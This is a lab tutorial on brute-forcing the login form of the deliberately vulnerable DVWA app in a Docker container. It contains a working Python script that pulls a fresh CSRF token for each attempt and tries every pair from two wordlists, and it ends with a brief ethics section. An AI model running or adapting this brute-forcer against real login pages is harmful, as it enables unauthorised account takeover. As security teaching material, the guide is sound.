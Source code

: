 # Ethical Login Testing with Python and CSRF Handling

This guide demonstrates how to ethically test login functionality in a controlled environment using Python. The project involves a web application hosted in a Docker container and accessed via Poridhi's load balancer. The Python script automates credential testing, dynamically retrieves CSRF tokens, and highlights the importance of robust security mechanisms in web applications.

![](./images/logo.drawio.svg)


## **Objective**

1. **Test Login Functionality**: Validate credentials against a web application's login form.
2. **Handle CSRF Protection**: Dynamically extract and use CSRF tokens to comply with security mechanisms.
3. **Automate Testing**: Implement ethical brute-forcing to identify valid credentials.
4. **Understand Security Mechanisms**: Demonstrate the importance of CSRF handling and error detection.


## **Project Structure**

Here’s the folder structure for the project:

```
ethical-login-testing/
├── test.py                # The Python script for login testing
├── usernames.txt          # File containing test usernames
├── passwords.txt          # File containing test passwords
```

## **Set Up the Docker Environment**

For this lab, we will be using the DVWA (Damn Vulnerable Web Application) Docker image. This is a simple web application that is used to test the security of web applications. It is designed to be used in a controlled environment for testing purposes.

![](./images/logo1.drawio.svg)

1. **Pull the Docker Image**:
   Download the DVWA image from Docker Hub:
   ```bash
   docker pull vulnerables/web-dvwa
   ```

2. **Run the Docker Container**:
   Start the container on port 80:
   ```bash
   docker run -d -p 80:80 vulnerables/web-dvwa
   ```

3. **Verify Access via Poridhi's Load Balancer**:

   Find the `eth0` IP address of the `Poridhi's` VM.
   ```bash
   ifconfig
   ```

   Create a Loadbalancer in Poridhi's Cloud Portal with the `eth0` IP and port `80`.

   Poridhi’s load balancer routes traffic to the Docker container. Access the application with the URL.


4. **Set DVWA Security Level**:
   - Log in with the default credentials:
     - **Username**: `admin`
     - **Password**: `password`
   - Navigate to the **DVWA Security** tab and set the security level to **Low**.

## **Prepare Input Files**

1. **`usernames.txt`**:
   Add potential usernames, one per line:
   ```
   admin
   user
   test
   guest
   ```

2. **`passwords.txt`**:
   Add potential passwords, one per line:
   ```
   password
   admin
   guest
   test123
   ```

## **Python Script To Attack DVWA**

Now, we will create the script to test the login functionality of the DVWA application. This script will attempt to login to the application with each username and password combination in the `usernames.txt` and `passwords.txt` files. Before that it will extract the CSRF token from the login page. Then it will attempt to login to the application with the extracted CSRF token, username and password combination. If the login is successful, the script will print the username and password combination. If the login is unsuccessful, the script will print the username and password combination and continue to the next combination.

![](./images/logo2.drawio.svg)

Save the following Python script as `test.py` in the project folder:

```python
import requests
import re

# Base URL and login endpoint
url_base = "https://66dbf2e46722fdb9097e9eb5-lb-427.bm-north.lab.poridhi.io/"
url_login = url_base + "login.php"

# File paths for usernames and passwords
path_users_file = 'usernames.txt'
path_passwords_file = 'passwords.txt'

# Function to retrieve CSRF token
def get_csrf_token(session):
    response = session.get(url_login)
    if response.status_code == 200:
        match = re.search(r"name='user_token' value='(.*?)'", response.text)
        if match:
            return match.group(1)
    print("Failed to retrieve CSRF token.")
    return None

# Function to attempt login
def attempt_login(session, username, password, csrf_token):
    login_data = {
        'username': username,
        'password': password,
        'Login': 'Login',
        'user_token': csrf_token
    }
    response = session.post(url_login, data=login_data)
    if "Login failed" not in response.text:
        return True
    return False

# Read usernames and passwords from files
with open(path_users_file, 'r') as f:
    usernames = [line.strip() for line in f]
with open(path_passwords_file, 'r') as f:
    passwords = [line.strip() for line in f]

# Initialize session and validate connection
session = requests.Session()
response = session.get(url_base)
if response.status_code != 200:
    print("Unable to connect to the application.")
    exit()

# Main script logic
csrf_token = get_csrf_token(session)
if not csrf_token:
    exit()

for username in usernames:
    for password in passwords:
        csrf_token = get_csrf_token(session)  # Refresh token for each attempt
        if attempt_login(session, username, password, csrf_token):
            print(f"Success! Username: {username}, Password: {password}")
            break
```

## **CSRF Token Protection**

Cross-Site Request Forgery (CSRF) tokens are security measures used to prevent unauthorised actions on behalf of authenticated users. The script dynamically retrieves and includes this token in each login attempt to comply with server-side validation.

![](./images/logo3.drawio.svg)

### **Code for Token Handling**

```python
def get_csrf_token(session):
    response = session.get(url_login)
    if response.status_code == 200:
        # Extract the CSRF token from the response HTML
        match = re.search(r"name='user_token' value='(.*?)'", response.text)
        if match:
            return match.group(1)  # Return the extracted token
    print("Failed to retrieve CSRF token.")  # Print an error if token is not found
    return None
```

**How it Works**:
1. **GET Request**:
   - Sends a request to the login page to fetch its HTML content.
2. **Token Extraction**:
   - Uses a regular expression to extract the CSRF token (`user_token`) from the hidden input field in the HTML.
3. **Return Token**:
   - Returns the token for inclusion in the POST request.

## **Run the Script**

1. **Place Input Files**:
   Ensure `usernames.txt` and `passwords.txt` are in the same directory as `test.py`.

2. **Execute the Script**:
   Run the script using:
   ```bash
   python3 test.py
   ```

3. **Expected Output**:
   If valid credentials are found:
   ```
   Success! Username: admin, Password: password
   ```

If no valid credentials are found, the script terminates without any output.

---

## **Ethics**

1. **Authorisation**:
   - Ensure you have explicit permission to test the application.
2. **Controlled Environment**:
   - The setup involves a Docker container and load balancer, ensuring no harm to production systems.
3. **Educational Purpose**:
   - This guide is for learning and ethical testing only.

---

## **Conclusion**

This guide outlines the steps to set up a controlled environment for ethical login testing. By dynamically handling CSRF tokens and automating credential testing, the script highlights the importance of secure login mechanisms in web applications. Always conduct testing responsibly and within authorised boundaries.